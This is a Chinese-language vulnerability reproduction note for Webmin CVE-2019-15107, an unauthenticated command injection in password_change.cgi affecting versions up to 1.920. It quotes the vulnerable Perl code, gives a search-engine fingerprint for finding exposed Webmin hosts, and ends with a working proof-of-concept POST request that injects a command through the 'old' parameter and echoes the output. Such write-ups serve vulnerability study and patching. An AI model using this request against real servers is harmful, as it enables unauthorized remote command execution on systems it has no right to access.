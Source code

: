 # Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页。面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 漏洞影响

```
Webmin <= 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291019698.png)

漏洞的触发点为文件 password_change.cgi

![image-20220829102002569](./images/202208291020663.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![image-20220829102029855](./images/202208291020941.png)

```
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![image-20220829102048174](./images/202208291020246.png)